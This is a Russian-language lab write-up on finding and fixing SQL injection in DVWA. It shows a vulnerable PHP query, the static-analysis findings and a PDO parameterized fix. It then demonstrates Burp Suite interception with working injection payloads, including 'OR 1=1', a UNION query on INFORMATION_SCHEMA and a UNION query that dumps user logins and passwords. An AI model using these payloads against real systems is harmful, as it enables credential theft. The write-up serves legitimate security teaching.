 # Использование статического анализатора кода для обеспечения безопасности

## Обнаружен участок кода, подверженный инъекции SQL кода:

```php
$getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid );
```
## Результат анализа статическим анализатором кода:

![image](https://github.com/halissha/rbpzos4_static/blob/main/img.png)

## Основные проблемы:
### Пользовательские данные подставляются в запрос без плейсхолдеров или экранирования

```
[MITRE, CWE-89] - Improper Neutralization of Special Elements used in an SQL Command
```

### Пользовательские данные не проходят проверку перед выполнением запроса

```
[MITRE, CWE-20] - Improper Input Validation
```

Вследствие игнорирования требований безопасности мошенник может сконструировать вредоносный запрос в базу данных.
Это может быть чревато потерей, модификацией, утечкой данных, или получением мошенником доступа к оболочке.

## Устранение угроз безопасности:

- Воспользуемся PDO для конструирования параметризованного запроса (PDO - расширение для PHP, предоставляющее разработчику универсальный интерфейс для доступа к различным базам данных.)

```php
 $statement = $pdo->prepare('SELECT first_name, last_name FROM users WHERE user_id = :id;');
 $statement->bindParam("id", $id, PDO::PARAM_INT);
 $statement->execute();
```

- Обеспечим дополнительную валидацию переменной "id" по типу и длине

```php
 if (is_numeric($id) && strlen((string)$id) == 3) {
    ...
}
```
## Запахи кода:
### Файл должен содержать пустую строку в конце

Некоторые инструменты работают лучше когда файл содержит пустую строку в конце

### Убрать закрывающий тег ?> в конце файла

Согласно стандарту PSR2 закрывающий тег не требуется использовать в файле, содержащем только php-код

### Убрать пустое место после открывающей скобки и перед закрывающей скобкой

Общий принцип следование стандартам оформления кода позволяет командной разработке быть эффективнее, а коду быть более читаемым

## Результат повышения безопасности формы:

![image](https://github.com/halissha/rbpzos4_static/blob/main/image.png)

## Использование Burp Suite для нахождения уязвимости
Настроим прокси в Burp Suite для возможности перехвата запросов:
![image](https://github.com/halissha/rbpzos4_static/blob/main/proxy.jpg)

Аналогично настроим прокси в ручном режиме в браузере:
![image](https://github.com/halissha/rbpzos4_static/blob/main/proxy_browser.jpg)

## Перехват запросов с DVWA SQL Injection
Попробуем перехватить запрос с атакуемой страницы с помощью Interception:
![image](https://github.com/halissha/rbpzos4_static/blob/main/intercept.jpg)

## Обнаружение уязвимости с помощью Burp Suite
Проведем следующую инъекцию и получим всех пользователей, с помощью OR легко проходим валидацию:
```php
1 OR 1=1#
1+OR+1%3d1%23
```
Получим всех пользователей в ответе:

![image](https://github.com/halissha/rbpzos4_static/blob/main/users.jpg)

Теперь проведем инъекцию на обнаружение имен таблиц:
```php
1 UNION SELECT 1, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES#
1+UNION+SELECT+1,TABLE_NAME+FROM+INFORMATION.SCHEMA.TABLES%23
```
Получим имена всех таблиц, в ответе можно заметить важную таблицу users:
![image](https://github.com/halissha/rbpzos4_static/blob/main/user_table.jpg)

Следующим шагом попробуем вытащить логины и пароли из таблицы users с помощью следующей инъекции:
```php
1 UNION SELECT user, password FROM users#
1+UNION+SELECT+user,+password+FROM+users%23
```
В отвече получим логины и пароли пользователей системы:
![image](https://github.com/halissha/rbpzos4_static/blob/main/logins_passwords.jpg)

##Обнаружение уязвимости с помощью SQLMap
Воспользуемся утилитой SQLMap для выявления уязвимых параметров запроса
Утилита выявила уязвимости с типами:
```php
boolean-based blind
time-based blind
```
![image](https://github.com/halissha/rbpzos4_static/blob/main/logins_passwords.jpg)










